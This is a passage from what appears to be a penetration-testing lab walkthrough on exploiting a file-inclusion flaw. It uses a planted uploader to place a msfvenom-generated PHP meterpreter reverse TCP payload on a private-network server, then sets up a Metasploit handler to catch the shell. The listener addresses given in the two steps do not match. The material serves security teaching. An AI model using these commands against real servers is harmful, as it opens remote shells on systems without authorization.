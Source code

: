 <p style="text-align:justify;">
Then we can execute the file uploader using the following URL 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">http://192.168.201.3/comments/yolo.php</pre>

<p style="text-align:justify;">
the following screenshot shows the file uploader
</p>

<img src="https://xen0vas.github.io/assets/images/LFI/uploader.png" style="display:block;margin-left:auto;margin-right:auto;border:1px solid red;" width="780" height="400">


<p style="text-align:justify;">
Now that everything is set up, we are ready to create our final reverse tcp php payload and upload it on the server. The following command will be used in order to generate our php tcp reverse payload 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f raw > shell.php
</pre>

<p style="text-align:justify;">
Now that the payload is ready we will use the new uploader in order to upload the payload on the server. 
</p>

<img src="https://xen0vas.github.io/assets/images/LFI/uploaded.png" style="display:block;margin-left:auto;margin-right:auto;border:1px solid red;" width="780" height="400">


<p style="text-align:justify;">
Then we will run a metasploit multi / handler in order to run our meterpreter listener. First we will create the <code  style="background-color: lightgrey; color:black;">handler.rc</code> file as follows 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
use multi/handler
set LHOST 192.168.201.7
set LPORT 443
set payload php/meterpreter_reverse_tcp
set ExitOnSession false
exploit -j -z
</pre>
